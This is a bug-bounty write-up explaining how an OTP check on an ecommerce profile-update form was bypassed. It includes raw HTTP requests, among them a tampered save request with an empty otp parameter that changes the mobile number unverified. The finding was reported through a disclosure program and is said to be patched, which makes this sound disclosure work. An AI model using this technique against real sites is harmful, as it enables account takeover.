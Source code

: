 ```yaml
---
layout: post
title: How I bypassed OTP mechanism used for updating Sensitive Information
---
```


## Scenario

I found this vulnerability in a ecommerce site, the site has a responsible disclosure program

So the vulnerability was in profile<!--more--> updation page, there was a form by which a user can update his/her details, the details also includes `Mobile Number`, when a user tried to update any other detail it was updated normally but when user click on Edit button at `Mobile Number` field, OTP is sent to the registered email, and a popup occurs asking for the OTP, after entering OTP the number field can be enabled and updated

**OTP Validation Request**

```
POST /customer/otp-val HTTP/1.1
Host: www.example.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:76.0) Gecko/20100101 Firefox/76.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 85
Connection: close
Cookie: --COOKIES--

otp=123456&type=profile_update_otp&formId=myAccountVerifyOTPForm&mobile_no=NUMBERHERE
```

**Data Updation Request**

```
POST /customer/account HTTP/1.1
Host: www.example.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:76.0) Gecko/20100101 Firefox/76.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 222
Connection: close
Cookie: --COOKIES--
Upgrade-Insecure-Requests: 1

csrf_token=--CSRFTOKEN--&save_profile=Save+Changes&otp=123456&fname=Test&lname=Test&mobile=NUMBERHERE
```
## Where is the problem in this flow

There is two different requests one is validating the OTP, and enabling the number field, and another is when actually after updating the number a request is sent with Save button to save the number on the server

There is `otp` parameter in both the requests but the application is completely dependent on the first request, and in the second request the `otp` parameter is not validated

## Exploitation

As mentioned earlier that if user try to update any other field the data updation request is sent which also contains `Mobile Number`

So I clicked on edit `Name` and intercepted the request with burp suite, changed the `mobile` parameter with whatever number and send the request

**Malicious Requests** //Empty `otp` parameter
```
POST /customer/account HTTP/1.1
Host: www.example.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:76.0) Gecko/20100101 Firefox/76.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 222
Connection: close
Cookie: --COOKIES--
Upgrade-Insecure-Requests: 1

csrf_token=--CSRFTOKEN--&save_profile=Save+Changes&otp=&fname=Test&lname=Test&mobile=NUMBERHERE
```

The Mobile number is updated without any validation

The vulneraility is now patched

**Time Frame**

Intial Report: 27-May-2020

First Response: 27-May-2020

Patch Released: 2-June-2020
